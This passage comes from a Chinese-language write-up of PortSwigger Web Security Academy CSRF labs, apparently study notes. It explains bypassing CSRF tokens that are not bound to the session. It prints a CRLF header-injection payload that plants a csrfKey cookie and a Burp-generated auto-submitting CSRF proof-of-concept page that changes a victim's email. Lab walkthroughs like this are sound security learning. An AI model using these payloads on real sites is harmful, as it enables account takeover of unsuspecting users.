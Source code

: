 获取到user_token之后将token放入构造的url之后即可成功修改密码

Burpsuite有一个插件可以实现token追踪的功能：CSRF-TOKEN-TRACKER。第一次拿到当前界面的token之后可以放入token-tracker中，可以实现repeater每次重放之后都能追踪到新的token。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308101448914.png)

### 3.2 Portswigger

#### 3.2.1 CSRF与Cookie不绑定

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

这种情况下，由于CSRF的验证token和服务器session不严格绑定，则可以导致通过csrf”盗取“目标用户的csrf token/session，从而达到修改目标账户相关信息的目的。

首先登陆题目所给的第一个账号，抓包，发现csrfKey和session两个参数，发现修改csrfkey回显invalid token,而修改session会直接强制登出，这说明CSRFkey与session cookie不是严格绑定的：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308121056681.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308121056426.png)

尝试使用另一个账号，在提交修改邮箱请求的时候将上一个账号的csrfkey和csrf参数覆盖，发现可以正常修改。在页面中寻找可以注入的弱点，发现搜索框没有做过滤，不同的搜索内容导致不同的cookie且没有做保护，所以可以从这里构造payload：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308121138176.png)

```html
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
/?search=test Set-Cookie: csrfKey=YOUR-KEY; SameSite=None
```

使用PoC构造恶意页面如下：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a75009c03f290e082ff5642006c0008.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="enc3l&#64;hack&#46;com" />
      <input type="hidden" name="csrf" value="AwJuIY9Qvzb5aZhdsAUHBINnMK2D9b1S" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a75009c03f290e082ff5642006c0008.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=NsCXAPWDZ8p6Nueg0afv3Rvobmsuq5Ub%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

相似的攻击方式也可以用在csrfkey与提交的csrf强关联验证的情况，可以通过设置csrf为fake强制绕过验证：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308121211198.png)
